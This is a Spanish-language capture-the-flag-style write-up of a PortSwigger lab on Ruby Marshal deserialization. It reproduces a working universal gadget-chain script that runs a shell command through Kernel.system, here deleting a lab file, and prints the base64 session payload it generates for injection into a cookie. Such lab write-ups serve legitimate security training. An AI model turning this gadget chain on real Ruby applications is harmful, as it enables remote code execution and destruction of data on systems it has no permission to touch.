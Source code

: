 ```yaml
---
title: "Exploiting Ruby deserialization using a documented gadget chain"
date: 2025-01-02 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Insecure Deserialization
tags:
  - Insecure Deserialization
  - Exploiting Ruby deserialization using a documented gadget chain
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo de `sesiones` basado en la `serialización` y el `framework Ruby on Rails`. Existen `exploits documentados` que permiten la `ejecución remota de código` mediante una `cadena de gadgets` en este `framework`. Para `resolver` el laboratorio, debemos encontrar un `exploit documentado` y adaptarlo para crear un `objeto serializado malicioso` que contenga una `carga útil de ejecución remota de código`. Luego, pasamos este `objeto` al `sitio web` para eliminar el archivo `morale.txt` del `directorio personal` de Carlos. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-7/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-7/image_2.png)

`Refrescamos` la `web` con `F5` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Insecure-Deserialization-Lab-7/image_3.png)

El `token` está en `base64` así que lo `decodeamos` y vemos que es un `objeto`, esta estructura es típica de la librería `Marshal` de `ruby`

```
# echo 'BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVpa2dnNzM0b3huMnlmaGRpbnB1bGczbDhreGRubGNnZAY7B0YK' | base64 -d 
o:	User:@usernameI"
                        wiener:EF:@access_tokenI"%ikgg734oxn2yfhdinpulg3l8kxdnlcgd;F 
```

En esta web [https://nastystereo.com/security/ruby-3.4-deserialization.html](https://nastystereo.com/security/ruby-3.4-deserialization.html) podemos encontrar `artículos` para `efectuar` un `Deserialization Gadget Chain` en `ruby`. En mi caso voy a usar este `script` extraído de [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) que nos `genera` un `objeto serializado` en `ruby`, el cual nos permite `ejecutar comandos` en `versiones` de ruby `inferiores` a la `3.0.2`

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])

require "base64"
puts Base64.encode64(payload).gsub("\n", "")
```

En mi caso he usado [https://www.jdoodle.com/execute-ruby-online](https://www.jdoodle.com/execute-ruby-online) para `seleccionar` la `versión correspondiente` y `generar` el `payload` en `base64`

```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ
```

Debido a que el parámetro `session` de la `cookie` es un `objeto` de `ruby`, podemos `abrirnos` el `navegador` y con `Ctrl + Shift + i` pegar el `objeto` que hemos `creado`

![](/assets/img/Insecure-Deserialization-Lab-7/image_4.png)
